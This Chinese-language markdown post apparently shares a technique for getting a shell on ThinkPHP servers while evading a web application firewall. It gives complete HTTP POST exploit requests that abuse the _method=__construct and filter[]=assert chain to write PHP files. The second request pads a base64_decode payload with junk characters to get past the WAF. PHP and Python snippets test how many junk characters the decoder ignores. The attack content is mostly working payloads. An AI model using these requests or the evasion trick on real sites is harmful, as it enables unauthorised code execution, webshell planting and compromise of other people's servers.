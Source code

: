 分享一个ThinkPHP GetShell时WAF绕过的小技巧

# POC
以如下POC为例
```
POST /?s=captcha&test=-1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Content-Type: application/x-www-form-urlencoded

s=file_put_contents('system.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
可能绕过WAF的POC为
```
POST /?s=captcha&test=-1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.1 Safari/537.36
Content-Type: application/x-www-form-urlencoded

s=file_put_contents('system.php','<?php file_put_contents("todoback.php",base64_decode("垃圾字符"));?>')&_method=__construct&method=POST&filter[]=assert
```

# 原理
![image](./01.png)  
官方文档中提到，使用base64_decode解码但不指定第二个参数$strict时，base64字符集以外的字符将被忽略，由此我们可以利用它来插入大量垃圾字符

# 实践
Ubuntu22.04 + 宝塔（Nginx1.24.0 + PHP5.6.40）

先测试合法base64字符，代码如下
```
<?php
$str = 'VGhpcyBpcyBhbiBlbmNvZGVkIHN0cmluZw==';
echo base64_decode($str);
?>
```
访问后，输出如下图  
![image](./02.png)  

测试插入非法base64字符
```
<?php
$str = 'VGhpcyBpcyBhbiBlbmNvZGVkIHN0cmluZw==***';
echo base64_decode($str);
?>
```
访问后，输出如下图  
![image](./03.png)  

测试插入100万个非法base64字符，python脚本如下
```
with open("a.txt", "w") as fw:
    for i in range(1000000):
        fw.write("*")
```
代码如下  
![image](./04.png)  
访问后，输出如下图  
![image](./05.png)  